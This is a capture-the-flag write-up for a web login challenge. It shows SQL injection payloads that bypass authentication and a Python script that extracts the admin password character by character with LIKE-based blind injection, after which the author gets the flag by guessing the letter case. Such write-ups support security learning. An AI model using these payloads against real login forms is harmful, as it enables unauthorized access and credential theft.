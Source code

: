 # Are you admin

> Login with the admin !
> http://52.78.16.36:8881/web1/index.php

So we are given a username and password field. I tried username `admin` and password `' or 1=1;#` and it worked - it just said "Hello admin" - so it is vulnerable to SQL Injection

I assumed that the query was something like this:
```SQL
SELECT <thing> FROM <thetable> WHERE id = '{id}' AND pw = '{pw}';
```

We see that the url is `http://52.78.16.36:8881/web1/?id=admin&pw=password`, so the column name is probably `pw`, so we can inject:
```
' or 1=1 or pw LIKE '%';#
```
We then replace the `%` with increasingly many `_` until we find one that matches - oh wait it says "no hack", so that probably does not work. Whatever since `%` is not filtered lets use that to get the password:
```python
import requests
base = "http://52.78.16.36:8881/web1/"

arr = []
id = 40
print(f"base url: {base}")
while True:
    char = chr(id)
    pw = f"' OR pw LIKE '{''.join(arr)}{char}%';#"
    params = {'id': 'admin', 'pw': pw}
    res = requests.get(base, params=params)
    if id == 127:
        print("end: "+pw)
        break
    elif 'Hello admin' in res.text:
        arr.append(char)
        id = 40
        print("Correct: "+pw)
    else:
        print("Wrong: "+pw)
        id += 1
```

the result is `end: ' OR pw LIKE 'ADMIN123PW⌂%';#`, and ignoring the last few bits we get `ADMIN123PW`, but that still doesnt give us the flag. Since `LIKE` is not case-senstive, and we can't using `SUBSTRING` since I dont know the table name, we can only try for different combinations of upper and lowercase. I tried all lowercase instead (i.e. `admin123pw`) and I got the flag (scuffed lmao)